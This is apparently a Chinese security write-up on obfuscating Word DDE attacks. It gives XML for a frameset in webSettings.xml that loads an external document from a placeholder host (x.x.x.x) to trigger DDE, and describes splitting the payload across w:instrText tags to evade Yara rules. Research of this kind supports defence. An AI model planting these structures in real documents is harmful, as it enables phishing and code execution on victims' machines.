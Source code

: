 如果既使用DDEAUTO，又设置了`w:dirty="true"`，文档打开时会提醒用户三次是否执行代码

##### No DDE

DDE混淆的终极目标是在文档中不出现任何DDE，文章中找到的方法是通过frames标签嵌入外部引用的文档。Word文档实际上有HTML解析以及嵌入HTML文档的功能，只不过在Word2016取消了该功能入口，但底层依然会解析这部分内容

同样将docx作为zip打开，并且在webSettings.xml的`<w:webSettings>`中加入下列内容

```xml
<w:frameset>
    <w:framesetSplitbar>
        <w:w w:val="60"/>
        <w:color w:val="auto"/>
        <w:noBorder/>
    </w:framesetSplitbar>
    <w:frameset>
        <w:frame>
            <w:name w:val="1"/>
            <w:sourceFileName r:id="rId1"/>
            <w:linkedToFile/>
        </w:frame>
    </w:frameset>
</w:frameset>
```

其中`rId1`是对外部文档的一个引用，该引用需要在`word/_rels`文件夹中添加（依然是将docx作为zip打开时），文件为`webSettings.xml.rels`

添加下列内容

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships 
    xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
    <Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/frame" Target="http://x.x.x.x/simple.docx" TargetMode="External"/>
</Relationships>
```

其中Target属性即为外部的文档地址

由于文档本身是外部引用，Word默认使用保护视图浏览，但在保护视图下实际上无法正常预览文件，Word会有提示说明只有编辑模式才能正常预览，此时若用户切换了模式，外部文档就会被下载，并且会触发DDE（还是会有弹窗提醒）

#### XML标签混淆

[Macroless DOC malware that avoids detection with Yara rule – Furoner.CAT](https://furoner.wordpress.com/2017/10/17/macroless-malware-that-avoids-detection-with-yara-rule/)

该篇文章介绍了一个使用一系列xml标签嵌套进行混淆的方法，主要是以`<w:instrText>`对实际payload进行包裹，两个标签之间插入一系列其他标签的方式

```
<w:instrText>"Dd</w:instrText></w:r> [其他标签]
<w:instrText>E"</w:instrText></w:r>
```

### 缓解
